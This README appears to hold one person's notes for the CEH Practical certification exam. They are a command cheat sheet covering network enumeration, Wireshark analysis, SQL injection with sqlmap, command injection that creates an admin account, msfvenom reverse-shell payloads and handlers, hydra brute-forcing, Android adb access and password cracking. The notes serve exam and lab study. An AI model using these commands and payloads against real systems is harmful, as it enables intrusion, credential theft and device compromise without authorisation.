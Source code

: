 <img src="/IMG/CEH-Practical-Logo.jpg">

# CEH-Practical-Notes-and-Tools
Successfully completed the CEH (Practical) exam by EC-Council with a score of 20/20! Took me around 2 hours 20 minutes to complete the 6 hour Proctored exam.  

> Just a typical CTF Player/Hacker going back to Basics 💻

> My Personal Notes that I used on the Exam as a Cheatsheet

# Network Hacking - Enumeration
<details>
  <summary>Netdiscover </summary>
  
## Netdiscover
  
* Scan Entire Network for ALive host using ARP
```console
netdiscover -i eth0
netdiscover -r x.x.x.1/24
```
* Enum
```console
1- NetBios enum using windows- in cmd type- nbtstat -a 10.10.10.10 (-a displays NEtBIOS name table)

2- NetBios enum using nmap- nmap -sV -v --script nbstat.nse 10.10.10.16

3- SNMP enum using nmap-  nmap -sU -p 161 10.10.10.10 (-p 161 is port for SNMP)--> Check if port is open
                          snmp-check 10.10.10.10 ( It will show user accounts, processes etc) --> for parrot

4- DNS recon/enum-  dnsrecon -d www.google.com -z

5- FTP enum using nmap-  nmap -p 21 -A 10.10.10.10 

6- NetBios enum using enum4linux- enum4linux -u martin -p apple -n 10.10.10.10 (all info)
				  enum4linux -u martin -p apple -P 10.10.10.10 (policy info)
  ```
</details>

<details>
  <summary>Nmap </summary>
  
## Nmap

* To scan the live Host
```console
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
```

Null Scan
```console
nmap -sN x.x.x.x
```
* To find the Specific open port 
```console
nmap -p port x.x.x.1/24 --open
```
* To find the OS 
```console
nmap -O x.x.x.x 
```
* Comprehensive Scan
```console
nmap -Pn -A x.x.x.1/24 -vv --open   
```
* To find FQDN (Find the FQDN in a subnet/network)
```console
nmap -p389 –sV -iL <target_list>
```
```console
 nmap -p389 –sV <target_IP>
```

* Scanning Networks (always do sudo su) --> To be root

  Nmap scan for alive/active hosts command for 192.189.19.18
```console
nmap -A 192.189.19.0/24 or nmap -T4 -A ip
```
  
Zenmap/nmap command for TCP scan- First put the target ip in the Target: and then in the Command: put this command 
```console
nmap -sT -v 10.10.10.16
```
  
Nmap scan if firewall/IDS is opened, half scan 
```console
nmap -sS -v 10.10.10.16 
```
  
If even this the above command is not working then use this command  
```console
namp -f 10.10.10.16
```
Nmap scan for host discovery or OS- nmap -O 192.168.92.10 or you can use
```console
nmap -A 192.168.92.10
```

If host is windows then use this command - this script determines the OS, computer name, domain, workgroup, time over smb protocol (ports 445 or 139).
```console
nmap --script smb-os-discovery.nse 192.168.12.22 
```

nmap command for source port manipulation, in this port is given or we use common port  
```console
nmap -g 80 10.10.10.10
```
```console  
-A command is aggressive scan it includes - OS detection (-O), Version (-sV), Script (-sS) and traceroute (--traceroute).
```
```console  
5- Identify Target system os with (Time to Live) TTL and TCP window sizes using wireshark- Check the target ip Time to live value with protocol ICMP. If it is 128 then it is windows, as ICMP value came from windows. If TTL is 64 then it is linux. Every OS has different TTL. TTL 254 is solaris.
```
Some extra RDP info
```console
Check RDP enabled after getting ip- nmap -p 3389 -iL ip.txt | grep open (ip.txt contains all the alive hosts from target subnet)
```
Some extra MYSQL info
```console
Check MySQL service running- nmap -p 3306 -iL ip.txt | grep open        (ip.txt contains all the alive hosts from target subnet)
```

</details>


<details>
  <summary>🔢 Enumeration Cheatsheet </summary>
	
# 🔢 Enumeration Cheatsheet

#### **General Enumeration:**

* ```
  nmap -vv -Pn -A -sC -sS -T 4 -p- 10.0.0.1
  ```
  * Verbose, syn, all ports, all scripts, no ping
* ```
  nmap -v -sS -A -T4 x.x.x.x
  ```
  * Verbose, SYN Stealth, Version info, and scripts against services.
* ```
  nmap –script smb-check-vulns.nse –script-args=unsafe=1 -p445 [host]
  ```
  * Nmap script to scan for vulnerable SMB servers – WARNING: unsafe=1 may cause knockover
* ```
  netdiscover -r 192.168.1.0/24
  ```

#### **FTP Enumeration (21):** <a href="#toc475368978" id="toc475368978"></a>

* ```
  nmap –script ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 10.0.0.1
  ```

#### **SSH (22):** <a href="#toc475368979" id="toc475368979"></a>

* ```
  ssh INSERTIPADDRESS 22
  ```

#### **SMTP Enumeration (25):** <a href="#toc475368980" id="toc475368980"></a>

* ```
  nmap –script smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 10.0.0.1
  ```
* ```
  nc -nvv INSERTIPADDRESS 25
  ```
* ```
  telnet INSERTIPADDRESS 25
  ```

#### **Finger Enumeration (79):** <a href="#toc494187363" id="toc494187363"></a>

Download script and run it with a wordlist: [http://pentestmonkey.net/tools/user-enumeration/finger-user-enum](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum)

#### **Web Enumeration (80/443):** <a href="#toc475368981" id="toc475368981"></a>

* dirbuster (GUI)
* ```
  dirb http://10.0.0.1/
  ```
* ```
  nikto –h 10.0.0.1
  ```

#### **Pop3 (110):** <a href="#toc475368982" id="toc475368982"></a>

* ```
  telnet INSERTIPADDRESS 110
  ```
* ```
  USER [username]
  ```
* ```
  PASS [password]
  ```
  * To login
* ```
  LIST
  ```
  * To list messages
* ```
  RETR [message number]
  ```
  * Retrieve message
* ```
  QUIT
  ```
  * quits

#### **RPCBind (111):** <a href="#toc475368983" id="toc475368983"></a>

* ```
  rpcinfo –p x.x.x.x
  ```

#### **SMB\RPC Enumeration (139/445):** <a href="#toc475368984" id="toc475368984"></a>
```console

find ip using NMAP
-> smbclient -L \\IP >> for sharename
-> hydra -L userlist.txt -p passlist.txt ip smb


-> smbclient \\\\ip\\sharename -U user
type txt
```
* ```
  enum4linux –a 10.0.0.1
  ```
* `nbtscan x.x.x.x`
  * Discover Windows / Samba servers on subnet, finds Windows MAC addresses, netbios name and discover client workgroup / domain
* ```
  py 192.168.XXX.XXX 500 50000 dict.txt
  ```
* ```
  python /usr/share/doc/python-impacket-doc/examples/samrdump.py 192.168.XXX.XXX
  ```
* ```

	nmap -p 445 --script smb.enum-shares 10.10.x.x    ##share details wth permisions
  OR
  
  nmap IPADDR --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse
  ```
* ```
  smbclient -L //INSERTIPADDRESS/
  ```
  * List open shares
* ```
  smbclient //INSERTIPADDRESS/ipc$ -U john
  ```

#### **SNMP Enumeration (161):** <a href="#toc475368985" id="toc475368985"></a>

* ```
  snmpwalk -c public -v1 10.0.0.0
  ```
* ```
  snmpcheck -t 192.168.1.X -c public
  or
  snmp-check 192.168.63.2
  ```
* ```
  onesixtyone -c names -i hosts
  ```
* ```
  nmap -sT -p 161 192.168.X.X -oG snmp_results.txt
	or

  nmap -sU -p 161 --script=snmp.process 192.168.x.x
  ```
* ```
  snmpenum -t 192.168.1.X
  ```

#### **Oracle (1521):** <a href="#toc475368986" id="toc475368986"></a>

* ```
  tnscmd10g version -h INSERTIPADDRESS
  ```
* ```
  tnscmd10g status -h INSERTIPADDRESS
  ```

#### **Mysql Enumeration (3306):** <a href="#toc475368987" id="toc475368987"></a>

* ```
  nmap -sV -Pn -vv  10.0.0.1 -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122
  ```

#### **DNS Zone Transfers:** <a href="#toc475368988" id="toc475368988"></a>

* ```
  nslookup -> set type=any -> ls -d blah.com
  ```
* ```
  dig axfr blah.com @ns1.blah.com
  ```
  * This one works the best in my experience
* ```
  dnsrecon -d TARGET -D /usr/share/wordlists/dnsmap.txt -t std --xml ouput.xml
  ```

#### **Mounting File Share** <a href="#toc475368989" id="toc475368989"></a>

* ```
  showmount -e IPADDR
  ```
* ```
  mount 192.168.1.1:/vol/share /mnt/nfs  -nolock
  ```
  * mounts the share to /mnt/nfs without locking it
* ```
  mount -t cifs -o username=user,password=pass,domain=blah //192.168.1.X/share-name /mnt/cifs
  ```
  * Mount Windows CIFS / SMB share on Linux at /mnt/cifs if you remove password it will prompt on the CLI (more secure as it wont end up in bash\_history)
* ```
  net use Z: \\win-server\share password  /user:domain\janedoe /savecred /p:no
  ```
  * Mount a Windows share on Windows from the command line
* ```
  apt-get install smb4k –y
  ```
  * Install smb4k on Kali, useful Linux GUI for browsing SMB shares

#### **Fingerprinting:  Basic versioning / finger printing via displayed banner** <a href="#toc475368990" id="toc475368990"></a>

* ```
  nc -v 192.168.1.1 25
  ```
* ```
  telnet 192.168.1.1 25
  ```

#### **Exploit Research** <a href="#toc475368991" id="toc475368991"></a>

* ```
  searchsploit windows 2003 | grep -i local
  ```
  * Search exploit-db for exploit, in this example windows 2003 + local esc

#### **Compiling Exploits** <a href="#toc475368992" id="toc475368992"></a>

* ```
  gcc -o exploit exploit.c
  ```
  * Compile C code, add –m32 after ‘gcc’ for compiling 32 bit code on 64 bit Linux
* ```
  i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe
  ```
  * Compile windows .exe on Linux

#### **Packet Inspection:** <a href="#toc475368993" id="toc475368993"></a>

* ```
  tcpdump tcp port 80 -w output.pcap -i eth0
  ```
  * tcpdump for port 80 on interface eth0, outputs to output.pcap

\
**
</details>

  <details>
  <summary>Wireshark</summary>
    
  ## Wireshark
  
  * Wireshark provides the feature of reassembling a stream of plain text protocol packets into a human-readable format
  
  ```shell
    select_packet > follow > TCP Stream
  ```
  
  * To the get the specific method like ( post , get )
  
  ```console
  http.request.method==post
  http.request.method==get
  ```
  * To the Find DOS & DDOS (SYN and ACK) : 
```console
tcp.flags.syn == 1 , tcp.flags.syn == 1 and tcp.flags.ack == 0
```
  * go to Statistics and Select Conversations , sort by packets in IPv4 based on number of Packets transfer
  
  ```shell
  Statistics > Conversations > IPv4 > Packets
  ```
* Wireshark summary
   
  ```console
  tcp.flags.syn == 1 and tcp.flags.ack == 0    (How many machines) or Go to statistics IPv4 addresses--> Source and Destination ---> Then you can apply the filter given

  tcp.flags.syn == 1   (Which machine for dos)

  http.request.method == POST   (for passwords) or click tools ---> credentials Also
  ```

 * Password Sniffing using Wireshark.  
In pcap file apply filter:- (you will get all the post request) Now to capture password click on edit in menu bar, then near Find packet section, on the "display filter" select "string", also select "Packet details" from the drop down of "Packet list", also change "narrow & wide" to "Narrow UTF-8 & ASCII", and then type "pwd" in the find section.
```console
http.request.method==POST
```
### wireshark filters
```console
### wireshark filters

# // filters by post
http.request.method==POST
smtp // email
pop // email
dns.qry.type == 1 -T fields -e dns.qry.name = show records present in this pcap
dns.flags.response == 0 = There are 56 unique DNS queries.
tcp // show tcp packets
# //find packets
edit > find packets > packet list : packet bytes > case sensitive: strings > string "pass" :search

# //DDOS ATTACK
look number of packets first column
then >statistics > ipv4 statistics > destination and ports

# ///Capture Packets with tcpdump
tcpdump -i eth0 -w capture.pcap

# ///Analyze with Wireshark filters
http.request.method == "POST"
ftp.request.command == "USER" || ftp.request.command == "PASS"

# /// tshark cli
tshark -r dns.cap | wc -l //count how many packets are in a capture
tshark -r dns.cap -Y "dns.qry.type == 1" -T fields -e dns.qry.name //show records present in this pcap
tshark -r dnsexfil.pcap -Y "dns.flags.response == 0" | wc -l 
tshark -r pcap -T fields -e dns.qry.name | uniq | wc -l //There are 56 unique DNS queries.
tshark -r pcap | head -n2 //DNS server side to identify 'special' queries
tshark -r pcap -Y "dns.flags.response == 0" -T fields -e "dns.qry.name" | sed "s/.m4lwhere.org//g" | tr -d "\n" `exfiltrate data with regx`
```
</details>

<details>
  <summary>Covert TCP</summary>
  
  ## Covert TCP
  
  * [covert_TCP](Covert_TCP.c) 
  * In this we have to use Covert TCP technique to analyses the pcapng file.
  * Traverse though each line in Wireshark and concentrate on Identification field, keep an eye on Hex value and ANSI value.
  * Compile the Code
  ```console
cc -o covert_tcp covert_tcp.c
  ```
  * Reciever Machine(Client_IP)
  ```console
  sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 9999 -dest_port 8888 -server -file recieve.txt
  ```
  * Sender Machine(Attacker_IP)
  * Create A Message file that need to be transferred Eg: secret.txt
  ```console
  sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 8888 -dest_port 9999 -file secret.txt
  ```
 
 * Secret message sent using Covert_TCP and it is captured using Wireshark - [Pcap_of_Covert](Covert_TCP_Capture.pcapng)
 * The Secret text is -> Hello  This 123 -

  <img src="/IMG/CovertWireshark.jpg" />

 

</details>

<details>
  <summary> LLMNR/NBT</summary>
  
  ##  LLMNR/NBT-NS Poisoning

* [Responder](https://github.com/lgandx/Responder) - rogue authentication server to capture hashes.

* This can be used to get the already logged-in user's password, who is trying to access a shared resource which is not present.
  
* In Parrot/Kali OS, 

```console
responder -I eth0  
```

* In windows, try to access the shared resource, logs are stored at usr/share/responder/logs/SMB<filename>
* To crack that hash, use JohntheRipper

```console
john SMBfilename  
```
</details>

<details>
  <summary>Common Ports</summary>
  
 ## Common Port

* 21        - FTP
* 22        - SSH
* 23        - TELNET
* 3306      - MYSQL
* 389,3389  - RDP

</details>

<details>
  <summary>Port Login</summary>

  ## Port Login
    
  * FTP Login
    default username: anonymous
  ```console
    ftp x.x.x.x
  ```
If non standard port like 10021 
```console
    ftp x.x.x.x 10021
  ```
    
  * SSH Login  
  ```console
    ssh username@x.x.x.x
  ```
    
  * TELNET Login
  ```console
    telnet x.x.x.x
  ```
   
 </details>
</details>

# Web Hacking
<details>
	
<summary>HACKING WEB</summary>

@@ Hacking Web servers

```console
1- Footprinting web server Using Netcat and Telnet- nc -vv www.movies.com 80
						    GET /HTTP/1.0
						    telnet www.movies.com 80
						    GET /HTTP/1.0

2- Enumerate Web server info using nmap-  nmap -sV --script=http-enum www.movies.com

3- Crack FTP port using nmap-
nmap -p 21 10.10.10.10 (check if it is open or not)

ftp 10.10.10.10 (To see if it is directly connecting or need credentials if need. Then go to Desktop and in Ceh tools folder you will find wordlists, here you will find usernames and passwords file. )

Now in terminal type-
hydra -L /home/attacker/Desktop/CEH_TOOLS/Wordlists/Username.txt -P /home/attacker/Desktop/CEH_TOOLS/Wordlists/Password.txt ftp://10.10.10.10
or
hydra -l user -P passlist.txt ftp://10.10.10.10
```

@@ Hacking Web Application
```console
1- Scan Using OWASP ZAP (Parrot)- Type 'zaproxy' in the terminal and then it would open. In target tab put the url and click automated scan.

2- Directory Bruteforcing
gobuster dir -u 10.10.10.10 -w /home/attacker/Desktop/common.txt

3- Enumerate a Web Application using WPscan & Metasploit BFA- (u means username) 
wpscan --url http://10.10.10.10:8080/NEW --enumerate u  

Then type msfconsole to open metasploit. Type -  use auxilliary/scanner/http/wordpress_login_enum
 						 show options
						 set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt
						 set RHOSTS 10.10.10.10  (target ip)
						 set RPORT 8080          (target port)
						 set TARGETURI http://10.10.10.10:8080/
						 set USERNAME admin

4- Brute Force using WPscan -    wpscan --url http://10.10.10.10:8080/NEW -u root -P passwdfile.txt (Use this only after enumerating the user like in step 3)
			         wpscan --url http://10.10.10.10:8080/NEW --usernames userlist.txt, --passwords passwdlist.txt 

5- Command Injection-  | net user  (Find users)
 		       | dir C:\  (directory listing)
                       | net user Test/Add  (Add a user)
		       | net user Test      (Check a user)
		       | net localgroup Administrators Test/Add   (To convert the test account to admin)
		       | net user Test      (Once again check to see if it has become administrator)
Now you can do a RDP connection with the given ip and the Test account which you created.

6- Multiple Ways to Detect HTTP Options

* Through the Nikto command we can identify the HTTP Options available on the target URL as follows
			nikto -h 192.168.1.109

* NMAP command to enumerate all of the HTTP methods supported by a web server on the target URL as follows :
	nmap --script http-methods --script-args http-method.test-all ='/192.168.1.109' 192.168.1.109



```
 </details>
<details>

 <summary>Enumeration</summary>

### Banner Grabbing
```console
nc -nv 192.168.1.5 80              # Netcat to check web server banner
 ```

 ### dir enumeration

 ```console
gobuster dir -u 10.10.. -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,html,txt -q
```
```console
dir : directory listing
-u : host
-w : wordlists
-t : threads int / Number of concurrent threads (default 10)
-x : enumerate hidden files htm, php
-q : –quiet / Don’t print the banner and other noise

// wordpress enumeration
wpscan --url https://localchost.com --passwords=
wpscan -u 10.10.. -e u vp
wpscan -u 10.10.. -e u --wordlist path/rockyou.txt //bruteforce

-e = enumerate
u = enumerate usernames
vp = vulnerable plugins

// wordlist generation
cewl -w wordlist -d 2 -m 5 http://wordpress.com
-d = deeph of the scanning
-m = long of the words
-w = save to a file worlist
```
### enumerating -samba
```console
search for commands
smbmap --help | grep -i username

smbmap -u "admin" -p "passowrd" -H 10.10.10.10 -x "ipconfig"
-x = command
```
</details>
<details>

  <summary>Nslookup</summary>

* To verify Website's Ip
```console
Nslookup wwww.example.com
```
  </details>
  <details>
  <summary>File Upload</summary>
  
  ## File Upload Vulnerability
  
* To create a PHP Payload 
* Copy the PHP code and create a .php
  
```console
msfvenom -p php/meterpreter/reverse_tcp lhost=attacker-ip lport=attcker-port -f raw
```
  
* To create a Reverse_tcp Connection
```console
msfconsole
use exploit/multi/handler
set payload php/meterepreter/reverse_tcp
set LHOST = attacker-ip
set LPORT = attcker-port
run
```
  
* To find the secret file 
```console
  type C:\wamp64\www\DVWA\hackable\uploads\Hash.txt
```
  </details>
<details>

 Summary
 ```console
1- Auth Bypass-  hi'OR 1=1 --

2- Insert new details if sql injection found in login page in username tab enter- blah';insert into login values('john','apple123');--

3- Exploit a Blind SQL Injection- In the website profile, do inspect element and in the console tab write -  document.cookie
Then copy the cookie value that was presented after this command. Then go to terminal and type this command,
sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --dbs

4- Command to check tables of database retrieved-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename --tables

5- Select the table you want to dump-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename -T Table_Name --dump   (Get username and password)

6- For OS shell this is the command-   sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --os-shell

6.1 In the shell type-   TASKLIST  (to view the tasks)

6.2 Use systeminfo for windows to get all os version

6.3 Use uname -a for linux to get os version
```
  <summary>SQL Injection</summary>
  
  ## SQL Injection
  
  * Login bypass with [' or 1=1 --]
  

### SQLMAP
  
* List databases, add cookie values
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --dbs 
```
* OR
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low”   --data="id=1&Submit=Submit" --dbs  
```

* List Tables, add databse name
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name --tables  
```
* List Columns of that table
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --columns
```
* Dump all values of the table
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --dump
```

### DSSS
  
  * Damn Small SQLi Scanner ([DSSS](https://github.com/stamparm/DSSS)) is a fully functional SQL injection vulnerability scanner (supporting GET and POST parameters)

  * As of optional settings it supports HTTP proxy together with HTTP header values User-Agent, Referer and Cookie.

  ```console
  python3 dsss.py -u "url" --cookie="cookie"
  ```
  <img src="/IMG/DSSS/dsss1.jpg" />  

  
  * Open the binded URL
  
  <img src="/IMG/DSSS/dsss2.jpg" />  

  
  </details>



</details>

# System Hacking

<details>
  <summary>System</summary>
  
  ## System 

  * To create a Payload 
```console
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=attacker_IP LPORT=attacker_Port -o filename.exe 
```
* To take a reverse TCP connection from windows
```console
msfdb init && msfconsole 
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST= attacker-IP  
set LPORT= attacker-Port 
run
```

</details>

## Getting a proper TTYPermalink
Now lets get a proper shell with auto completion.

```console
$ python3 -c "import pty;pty.spawn('/bin/bash')"
```

Hit CRTL+z to background the current process and on local box type
```console
$:~ stty raw -echo
and type fg and hit enter twice and on the reverse shell export the TERM as xterm.
```
www-data@startup:/var/www/html/files/ftp$  export TERM=xterm
Now we have a proper shell.

### Reverse shell nc
```console
nc -nlvp 1234
```

```console
python3 -m http.server
```
```console
wget 10.10.169.81:8000/suspicious.pcapng (wget remote IP:port/filename)
```

### FILE search
FILE search
-> find / -name Flag.txt 2>/dev/null

# Android Hacking
<details>
<summary>Android</summary>

  ## Android
  
```console
1- nmap ip -sV -p 5555    (Scan for adb port)

2- adb connect IP:5555    (Connect adb with parrot)

3- adb shell              (Access mobile device on parrot)

4- pwd --> ls --> cd sdcard --> ls --> cat secret.txt (If you can't find it there then go to Downloads folder using: cd downloads)
```

  <summary>ADB</summary>

  ## ADB
  
* To Install ADB
```console
apt-get update
sudo apt-get install adb -y
adb devices -l
```
* Connection Establish Steps

```console
adb connect x.x.x.x:5555
adb devices -l
adb shell  
```
* To navigate
```console
pwd
ls
cd Download
ls
cd sdcard
```
* Download a File from Android using ADB tool
```console
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```
</details>
<details>
  <summary>PhoneSploit</summary>
  
## PhoneSploit tool
  
* To install Phonesploit 

```console
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
OR
python3 -m pip install colorama
```
* To run Phonesploit
```console
python3 phonesploit.py

```

```console
* Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
* Type 4, to Access Shell on phone
* Download File using PhoneSploit

 cd /
-> cd sdcard search for flag img and then
-> pwd for file location
-> 9 for pulling img
-> location of img
-> where you want to save
Transfer to windows for decrypting using python server
```

9. Pull Folders from Phone to PC
```console

* Enter the Full Path of file to Download
sdcard/Download/secret.txt
```  
</details>

# Password Cracking & Hashing



<details>
  <summary>Wpscan</summary>
  
## Wordpress

* Wordpress site only Users Enumeration
```console
wpscan --url http://example.com/ceh --enumerate u
```
  * Direct crack if we have user/password detail
```console
wpscan --url http://x.x.x.x/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt
wpscan --url http://x.x.x.x:8080/CEH -u <user> -P ~/wordlists/password.txt
```
</details>

<details>
  <summary>Hydra</summary>

## Hydra


### GUI
```console
xhydra
```
### FILE search
```console
-> find / -name Flag.txt 2>/dev/null
```
### RDP
```console
hydra -V -f -L usernames.txt -P passwords.txt rdp://10.0.2.5 -V
```
### SSH
```console
hydra -l username -P passlist.txt x.x.x.x ssh

hydra -l root -P passwords.txt -f ssh://10.0.2.5 -V
```
```console
hydra -t4 -l lin -P /usr/share/wordlists/rockyou.txt ssh:10.10.149.11
hydra -l lin -P /usr/share/wordlists/rockyou.txt ssh:10.10.149.118
```
### FTP
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x

hydra -l user -P passlist.txt ftp://10.10.10.10
```
* If the service isn't running on the default port, use -s
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221
```
* Used to download the specific file from FTP to attacker or local machine
```console
get flag.txt ~/Desktop/filepath/flag.txt
get flag.txt .
```
### SMB
```console
hydra -l root -P passwords.txt -f smb://10.0.2.5 -V
```

### HTTP Basic Auth
```console
hydra -L users.txt -P password.txt 10.0.2.5 http-get /login/ -V
```
### HTTP POST
```console
# HTTP Post
hydra -L users.txt -P password.txt 10.0.2.5 http-post-form
"/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login
name or password is incorrect" -V
```
### IMAP
```console
# IMAP
hydra -l root -P passwords.txt -f imap://10.0.2.5 -V
```
### POP
```console
# POP
hydra -l USERNAME -P passwords.txt -f pop3://10.0.2.5 -V
```

### Post Web Form
```console
hydra -l -P 10.10.46.122 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```


### TELNET
```console
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet
```
### Other Examples
```console
Rexec
hydra -l root -P password.txt rexec://10.0.2.5 -V

Rlogin
hydra -l root -P password.txt rlogin://10.0.2.5 -V

RSH
hydra -L username.txt rsh://10.0.2.5 -V

RSP
hydra -l root -P passwords.txt <IP> rtsp

SMTP
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V
hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V
#Port 587 for SMTP with SSL

Telnet
hydra -l root -P passwords.txt [-t 32] <IP> telnet

VNC
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT>
<IP> vnc
```
</details>

<details>
<summary>hash</summary>

## hash
<summary>hash</summary>

### Using Hashcat
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

### hashcat -a attack mode -m hashtype 900 md4 1000 NTLM 1800 SHA512CRYPT 110 SHA1 with SALT HASH 0 MD5 100 SHA1 1400 SHA256 3200 BCRYPT 160 HMAC-SHA1
```console
Hashcat -a 3 -m 900 hash.txt /rockyou.txt
```
### Hash Identifier 
```console
https://www.onlinehashcrack.com/hash-identification.php
```
### Hash-identifier (CLI)
#### Hash Crack 
```console
https://crackstation.net/ https://hashes.com/en/decrypt/hash
```

</details>



<details>
<summary>John</summary>

# John

### Using John
```console
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


## Commands Formats

```console
john --list=formats
```

### Crack SHA1

```console
john  --format=raw-sha1 hash.txt
```

### Crack MD5

```console
john --format=raw-md5 hash.txt
```

### Cracking Shadow Files

# Unshadow
unshadow passwd.txt shadow.txt > unshadowed.txt


# John
		
john /etc/shadow

<strong># Wordlist
john --wordlist=&#x3C;password.txt> /etc/shadow

### Cracking Zip Files

```console
# Zip to John
zip2john file.zip > ziphash.txt

```
```console
# John
john --format=zip ziphash.txt
```

### Crack .pfx File

```console
pfx2john <pfx file> > hash.txt

john hash.txt --wordlist=<wordlist location>
```

### Crack GPG Passphrase

**Read More** [Here](https://blog.atucom.net/2015/08/cracking-gpg-key-passwords-using-john.html)

```console
gpg2john priv.key > hash 

john hash --wordlist=/usr/share/wordlists/rockyou.txt 
```

### Crack SSH Passphrase

```console
ssh2john /home/chinju/.ssh/id_rsa > ssh_hash.txt

john ssh_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

 </details>
  
# Steganography
  
  <details>
	  <summary>Steganography</summary>
	  
## Steganography
	  
### Extract files from images
```console
steghide extract -sf secret.jpg
```
### Find hidden strings
```console
strings suspect.png | less
 ```
  </details>
  
  <details>
	  <summary>Snow</summary>

### Snow
    
* Whitespace Steganography using [Snow](https://darkside.com.au/snow/snwdos32.zip)
* To hide the Text  
  
```console
SNOW.EXE -C -p test -m "Secret Message" original.txt hide.txt
```

* To unhide the Hidden Text

```console
SNOW.EXE -C -p test hide.txt
```
kali Hide Data Using Whitespace Stegnography- (magic is password and your secret is stored in readme2.txt along with the content of readme.txt)
```console
snow -C -m "My swiss account number is 121212121212" -p "magic" readme.txt readme2.txt  
```
To Display Hidden Data-(then it will show the content of readme2.txt content) 
```console
snow -C -p "magic" readme2.txt
```
<img src="/IMG/Snow.png"/>

</details>

<details>
  <summary>CrypTool</summary>
  
  ### CrypTool
  
  * [CrypTool](https://www.cryptool.org/en/ct1/downloads) for hex 
  
  <img src = "/IMG/Cryptool/CT.png"/>
  
  * To Encrypt
  
  <img src = "/IMG/Cryptool/CT5.png"/>
  <img src = "/IMG/Cryptool/CT6.png"/>
  
  * Use Key 05 
  
  <img src = "/IMG/Cryptool/CT7.png"/>
  <img src = "/IMG/Cryptool/CT8.png"/>
  <img src = "/IMG/Cryptool/CT9.png"/>
  <img src = "/IMG/Cryptool/CT10.png"/>
  <img src = "/IMG/Cryptool/CT11.png"/>
  
  * To Decrypt
  
